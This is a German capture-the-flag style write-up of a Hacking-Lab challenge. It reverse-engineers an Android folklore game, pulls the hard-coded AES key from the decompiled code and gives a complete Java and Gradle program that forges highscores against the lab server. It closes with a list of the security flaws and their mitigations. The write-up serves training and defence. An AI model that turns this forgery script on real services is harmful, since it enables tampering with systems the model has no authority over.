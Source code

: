 # 4216 Folklore App Highscore Manipulation RE

## Analyse
- Auf <https://www.apkdecompilers.com> das APK hochladen und die Source-Files herunterladen
- Alle Files durchsuchen nach "encrypt": `grep -r "encrypt"`

- Der verschlüsselte Request wird im `backend/FolkloreService` gesendet:

```java
StringBuilder localStringBuilder1 = new StringBuilder();
String str = paramArrayOfCowGameScore[0].getNickname() + 
"::" + paramArrayOfCowGameScore[0].getScore() + 
"::" + (int)(System.currentTimeMillis() / 1000L);

byte[] arrayOfByte = OpenSSL.encrypt("AES-256-CBC", 
"FbXVVzMwXKdHaFXz8sJRAwkprbCxfwQn74zHZX27jSjEwfvB".toCharArray(), 
str.getBytes(Charset.forName("ASCII")), false);

HttpGet localHttpGet = new HttpGet(Uri.parse(FolkloreService.this.mobileSiteURI.toString())
.buildUpon().appendEncodedPath("score.php")
.appendQueryParameter("message", Base64.encodeToString(arrayOfByte, 8)).build().toString());

StringBuilder localStringBuilder2 = new StringBuilder();
Log.d("FolkloreService", "Posting " + localHttpGet.getURI().toString());
FolkloreService.this.fac.makeHttpClient().execute(localHttpGet);
return Boolean.valueOf(true);
```

- Es ist aber nicht gut ersichtlich, was die `mobileSiteURI` ist, an die der Request geschickt wird. Da es aber nicht TLS-verschlüsselt ist, finden wir das schnell mit Wireshark heraus:

![](../img/hacking-lab-4216-2.png)

- Der Request ist also in der Form `GET http://mobile.hacking-lab.com/score.php?message=<aes-256-message>`
- Wie im Code zu sehen ist, ist die Message im Format `nickname::score::timestamp`
- Diese Message wird ASCII-Codiert AES-256 verschlüsselt und als Base64 als Query-Parameter übergeben

## Exploit
- Für das OpenSSL wird ein altes Apache Commons verwendet
    - Im Maven Repository ist noch ein altes Apache Commons SSL von driter Quelle vorhanden: <https://search.maven.org/#artifactdetails%7Cca.juliusdavies%7Cnot-yet-commons-ssl%7C0.3.11%7Cjar>
    - Für den HTTP-Client benutzen wir Apache Commons HttpClient: <https://search.maven.org/#artifactdetails%7Ccommons-httpclient%7Ccommons-httpclient%7C20020423%7Cjar>
- Daraus können wir ein Gradle-File erstellen, um das Projekt zu builden:

```groovy
apply plugin: 'java'
apply plugin: 'eclipse'
repositories {
	mavenCentral()
}
sourceCompatibility = 1.8
targetCompatibility = 1.8

dependencies {
    compile 'commons-httpclient:commons-httpclient:20020423'
    compile 'ca.juliusdavies:not-yet-commons-ssl:0.3.11'
}

apply plugin: 'application'

mainClassName = 'FolkloreServiceHack'
```
- Das Programm kann mit `gradle eclipse` vorbereitet und anschliessend in Eclipse importiert werden
- Für das Programm übernehmen wir den Original-Code und ändern lediglich die Aufrufe zum `HttpClient`, der Aufruf zu `OpenSSL` kann gleich bleiben

```java
import java.net.URL;
import java.nio.charset.Charset;
import java.util.Base64;

import org.apache.commons.httpclient.HttpClient;
import org.apache.commons.httpclient.methods.GetMethod;
import org.apache.commons.ssl.OpenSSL;

public class FolkloreServiceHack {

	public static void main(String[] args) throws Exception {

		String nickname = "hax00r";
		String score = "99999999999";
		String mobileSiteURI = "http://mobile.hacking-lab.com";
		
		char[] passphrase = "FbXVVzMwXKdHaFXz8sJRAwkprbCxfwQn74zHZX27jSjEwfvB"
				.toCharArray();

		String message = nickname + "::" + score + "::"
				+ (int) (System.currentTimeMillis() / 1000L);
		byte[] arrayOfByte = OpenSSL.encrypt("AES-256-CBC",
				passphrase, message.getBytes(Charset.forName("ASCII")), false);
		String path = "/score.php?message="
				+ Base64.getEncoder().encodeToString(arrayOfByte);
		GetMethod localHttpGet = new GetMethod(path);
		System.out.println(path);
		HttpClient httpClient = new HttpClient();
		httpClient.startSession(new URL(mobileSiteURI));
		httpClient.executeMethod(localHttpGet);
		System.out.println(localHttpGet.getResponseBodyAsString());
		
		httpClient.endSession();
	}
}
```

- Nach der Ausführung erscheinen wir als `hax00r` auf dem Scoreboard:

![](../img/hacking-lab-4216-3.png)

## Auswertung

### Sicherheits-Probleme
- Der Traffic ist nicht verschlüsselt, was ein Abhören sehr einfach macht
- Das Posten des Highscores braucht keinerlei Authentifizierung
- Der Schlüssel für die AES256-Verschlüsselung ist hard-coded in der App
    - Irgendwo muss der Key abgelegt Client-seitig abgelegt werden, es ist also unmöglich, ihn komplett geheim zu halten
- Es wird nicht geprüft, ob ein Highscore überhaupt realistisch ist, er kann beliebig gross werden

### Mitigation
Solche Highscore-Games, wo ein Client ein Highscore an den Server schickt, sind von Natur aus sehr schwer abzusichern, eine 100%ige-Sicherheit ist sogar unnmöglich, weil der Angreifer komplette Kontrolle über den Client hat. Auch wenn lokale Encryption-Keys verwendet werden, können diese immer aus dem Binary oder dem de-compilierten Sourcecode gelsen werden. Der Server kann nie mit absoluter Sicherheit wissen, ob ein Highscore wirklich gültig ist. Eine Authentisierung mit Token nützt auch nicht viel, da der Angreifer dies einfach auslesen und selbst benutzen kann.

Allerdings kann man einige Hürden einbauen, die einen Angriff komplizierter und teurer machen. Hier werden nur ein paar aufgezählt, geordnet nach den Offensichtlichsten:

- TLS verwenden
- Authentifizierung mit dem Highscore-Server, z.B. über ein Cookie oder Session-Token, das beim Highscore-Request mitgeschickt wird
- Unüblich hohe Highscores ignorieren
- Requests limitieren, die von einem User gemacht werden
- Zu Beginn ein vom Server verschlüsseltes Token senden (mit z.B. der User ID), dass dann beim Highscore-Request vom Client mitgeschickt wird
- Mit dem Token prüfen, wie lang ein Spiel dauert, und Highscore von zu kurzen oder zu langen Spielen verwerfen
- Während dem Spielen kontinuierlich den Zwischen-Score zum Server schicken, der die Punktzahl selbst hochzählen kann

Eine gute Zusammenfassung zum Thema ist auch in dieser Stackoverflow-Antwort zu finden:  
<http://stackoverflow.com/a/74841>
